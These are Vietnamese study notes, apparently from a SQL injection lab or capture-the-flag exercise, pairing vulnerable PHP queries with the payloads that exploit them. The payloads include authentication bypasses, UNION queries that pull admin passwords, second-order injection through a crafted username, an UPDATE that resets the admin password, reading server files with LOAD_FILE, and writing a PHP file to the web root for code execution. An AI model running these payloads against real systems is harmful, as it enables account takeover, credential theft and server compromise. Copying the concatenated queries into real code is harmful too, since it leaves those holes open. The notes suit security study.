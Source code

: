 ## Example

### Example 1

```
$sql = "SELECT username FROM users WHERE username='$username' AND password='$password'";
$query = $database->query($sql);
```

C1: Truyền dữ liệu `admin' -- ` vào biến username.

C2: Truyền dữ liệu `admin' or 1 = '2`.

Giải thích: toán tử AND sẽ được ưu tiên thực hiện trước toán tử OR. Nên ta có logic của câu truy vấn như sau: TRUE OR (FALSE AND FALSE) --> TRUE OR FALSE = TRUE --> login thành công.

 ### Example 2

 ```
$sql = "SELECT username FROM users WHERE username=\"$username\" AND password=\"$password\"";
$query = $database->query($sql);
```

Tương tự ex 1 nhưng lần này biến $username và $password được bọc trong dấu nháy kép. 

C1: Truyền dữ liệu `admin" -- ` vào biến username.

C2: Truyền dữ liệu `admin" or 1 = "2`.

### Example 3

```
$sql = "SELECT username FROM users WHERE username=LOWER(\"$username\") AND password=MD5(\"$password\")";
$query = $database->query($sql);
```

Có sự xuất hiện của hàm LOWER(). Cách khai thác:

Cách khai thác: `admin" ) -- `.

### Example 4

```
function checkValid($data)
{
    if (strpos($data, '"') !== false)
        return false;
    return true;
}

function loginHandler($username, $password)
{
    if (!checkValid($username) || !checkValid($password))
        return "detected";
....

    $sql = "SELECT username FROM users WHERE username=LOWER(\"$username\") AND password=MD5(\"$password\")";
    $query = $database->query($sql);
```

Ở ví dụ này chương trình đưa dấu nháy kép " vào blacklist. Vì vậy hãy sử dụng dấu backslash `\` để loại bỏ dấu " trong câu truy vấn. Cách khai thác:

Ở trường username nhập: `\`. Như vậy username sẽ nhận giá trị `) AND password=MD5(`.

Ở trường password thực hiện nối dài câu truy vấn để khai thác sqli: `) union select 'admin' -- `.

Lúc này câu truy vấn sẽ trở thành: `SELECT username FROM users WHERE username=LOWER() AND password=MD5() UNION SELECT 'admin' -- `

### Example 5

```
$sql = "SELECT username, password FROM users WHERE username='$username'";
```

Truy vấn giá trị username và password từ database nơi mà usernmae bằng giá trị biến $username nhập vào. password nhập vào sẽ được hash md5 trước khi so sánh với password truy vấn trước đó.

Cách khai thác: nối dài câu truy vấn với `union`.

C1: Truyền dữ liệu vào biến username: `' UNION SELECT password, md5('1') from users where username = 'admin' -- `. Password: `1`. Bằng cách này sẽ lấy được được password của admin từ database.

C2: Cách này sẽ thao túng luôn password và đăng nhập với tư cách admin với bất kì password nào. `' UNION SELECT 'admin', md5('1') -- `.

### Example 6

```
$sql = "SELECT content FROM posts WHERE id=$id";
```

Khai thác truy vấn database version: `0 UNION SELECT @@version –- `.

### Example 7

```
$sql = "SELECT username FROM users WHERE username=? and password=?";
$statement = $database->prepare($sql);
$statement->bind_param('ss', $_POST['username'], md5($_POST['password']));
$statement->execute();
$statement->store_result();
$statement->bind_result($result);

if ($statement->num_rows > 0) {
    $statement->fetch();
    $_SESSION["username"] = $result;
    die(header("Location: profile.php"));

...
```
Ở ex này câu truy vấn sử dụng "prepared statements" giúp chống lại các cuộc tấn công SQL injection. Nhưng tại file profile.php lại sử dụng câu truy vấn nối chuỗi `$sql = "SELECT email FROM users WHERE username='$username'";` dẫn đến bị khai thác:

Tạo tài khoản với username: `' UNION SELECT GROUP_CONCAT(username, password) FROM users -- `.

### Level 8
```
$sql = "UPDATE users SET email='$email' WHERE username='$username'";
```
Cách khai thác: lợi dụng câu truy vấn UPDATE thay đổi password của `admin` theo ý muốn `', password = md5('1') where username='admin' --  `.




`$sql = "SELECT * FROM posts WHERE id=" . $_GET['id'];`

- xac dinh so cot
- 
`select from posts where id=1+union+select+1,2,3,4+--+-`

- mysql cho phep doc, ghi file --> database user duoc quyen doc ghi file 

`LOAD_FILE('file_name')  -- read`

`INTO OUTFILE  -- write`

`1+union+select+1,2,3,LOAD_FILE('/flag_a7bd2')+--+-`

`1+union+select+1,2,3,'<?php phpinfo() ?>' INTO OUTFILE '/var/www/html/test.php'+--+- `   (ghi file tai document root --> rce)




 

